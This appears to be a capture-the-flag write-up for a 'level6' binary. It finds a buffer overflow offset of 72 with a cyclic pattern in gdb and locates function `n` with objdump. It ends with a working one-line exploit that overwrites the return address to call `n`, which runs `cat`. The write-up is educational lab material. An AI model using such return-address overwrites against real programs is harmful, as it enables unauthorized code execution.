 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that we must call `n` to trigger the `cat`.

We search the offset using a pattern generator like : [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator)

```
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

When we put 0x41346341 in wiremask it find an offset of 72.

We search `n`:

```Shell
objdump -t level6
...
08049824  w      .data  00000000              data_start
08048454 g     F .text  00000014              n
0804982c g       *ABS*  00000000              _edata
...
```

address of `n` : 08048454
little-endian : /x54/x84/x04/x08

Putting this together give us :
```Shell
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
